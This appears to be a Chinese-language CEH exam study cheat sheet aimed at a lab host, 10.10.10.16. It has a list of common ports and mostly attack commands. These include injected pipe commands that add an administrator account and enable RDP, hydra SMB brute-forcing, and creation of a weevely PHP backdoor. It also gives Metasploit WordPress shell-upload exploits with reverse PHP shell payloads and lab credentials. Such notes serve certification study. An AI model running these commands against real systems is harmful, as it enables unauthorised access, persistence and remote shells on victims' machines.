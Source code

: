 


## 連結
- [https://www.cvedetails.com](https://www.cvedetails.com)
- [https://www.exploit-db.com/](https://www.exploit-db.com/)
- [putty](https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe)
- [git](https://git-scm.com/downloads/win)
- [vscode](https://code.visualstudio.com/)


## linux
```bash
sudo systemctl start ssh
sudo su

# 查網關
ip route
ifconfig
route -n


# 加使用者cehp、並給sudo
sudo useradd cehp
sudo passwd cehp #會提示你輸入密碼
cut -d: -f1 /etc/passwd | grep cehp
sudo usermod -aG sudo cehp # 或sudo usermod -aG wheel cehp
getent group sudo # getent group wheel
```

## windows
```powershell
ipconfig # echo %userdomain%

# 共享資料夾
net use \\10.10.10.16 apple /u:martin
net view \\10.10.10.16

# 管道
echo 123 | whoami
| net user cehp /add
| net users
| net localgroup Administrators cehp /add
| net localgroup Administrators
| reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Terminal Server" /vfDenyTSConnections /t REG_DWORD /d 0 /f
| netstat -an | findstr :3389

net user cehp
```


## 常用服務和Port

- 22: SSH(Secure Shell)，用於安全遠程登錄。
- 23: Telnet，非加密的遠程登錄服務。
- 25: SMTP(Simple Mail Transfer Protocol)，用於傳輸電子郵件。
- 53: DNS
- 80: HTTP(Hypertext Transfer Protocol)，用於網頁傳輸。
- 88: Kerberos，一种AD网络身份验证协议，广泛用于基于票据的身份验证机制
- 123: NTP(Network Time Protocol)，用於時間同步。
- 135: RPC(Remote Procedure Call)，用於遠程進程調用。
- 137(UDP/TCP): NetBIOS Name Service，用于将计算机名称解析为 IP 地址，类似于 DNS 的功能，但适用于 NetBIOS 网络。NetBIOS 是一种老旧协议，在现代网络中逐渐被替代(如 DNS 和 SMB 直接使用 TCP/445)。
- 138(UDP): NetBIOS Datagram Service，用于在局域网中发送广播消息(如发送网络通知)。
- 139(TCP): NetBIOS Session Service，用于建立和维护基于 NetBIOS 的会话，支持文件共享、打印机共享等功能。
- 161: SNMP，簡單網管。网络设备通过 SNMP 向管理系统报告状态，或者允许管理系统更改设备配置。SNMPv1、SNMPv2c:  明文传输，安全性较低。SNMPv3:  提供认证和加密功能，增强安全性。
- 389: LDAP(Lightweight Directory Access Protocol)，用於訪問目錄服務。
- 443: HTTPS(HTTP over SSL/TLS)，加密的網頁傳輸。
- 445: SMB(Server Message Block)，微軟的檔案、印表機。用於共享文件和資源。
- 636: LDAPS(LDAP over SSL/TLS)，加密的 LDAP。
- 1900: 是 UPnP(通用即插即用) 的核心协议之一。SSDP 用于在局域网中发现网络设备(如打印机、路由器、媒体服务器等)。
- 2049: NFS(Network File System)，用於文件系統共享。
- 3268: Microsoft Global Catalog，Active Directory 全局编录服务
- 3389: RDP
- 5353: Zerocon
- 48101: 常見於物聯網(IOT)設備，特別是 Mirai C&C(Command and Control)。





## 其他指令
```bash
snmp-check 10.10.10.16
nbtscan 10.10.10.1-254
enum4linux 10.10.10.16
enum4linux -u martin -p apple -a 10.10.10.16
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16


# 列舉分享資料夾
python3 -m pip install --upgrade impacket
crackmapexec smb 10.10.10.16 -u martin -p apple --shares
```




## 製作後門php
```bash
weevely generate cehp backdoor.php #cehp為後門密碼
weevely http://10.10.10.16:8080/dvwa/hackable/uploads/backdoor.php cehp
```


## WPScan
```bash
whatweb http://10.10.10.16:8080/ceh
wpscan --url http://10.10.10.16:8080/ceh -e u # -e u表示列舉使用者
wpscan --url http://10.10.10.16:8080/ceh -P /usr/share/wordlists/nmap.lst # -e u表示列舉使用者
wpscan --url http://10.10.10.16:8080/ceh --api-token
```



## Metasploit
```bash
sudo service postgresql start
msfconsole

use exploit/unix/webapp/wp_admin_shell_upload
show info
set RHOSTS 10.10.10.16
set RPORT 8080
set TARGETURI /ceh
set USERNAME admin
set PASSWORD qwerty@123
set PAYLOAD php/reverse_php
exploit
```

```bash
msfconsole
use exploit/unix/webapp/wp_photo_gallery_unrestricted_file_upload
show info
set RHOSTS 10.10.10.16
set RPORT 8080
set TARGETURI /ceh
set USERNAME cehuser1
set PASSWORD green
set PAYLOAD php/reverse_php
exploit
```


## wordpress外掛
[https://downloads.wordpress.org/plugin/photo-gallery.1.2.5.zip](https://downloads.wordpress.org/plugin/photo-gallery.1.2.5.zip)

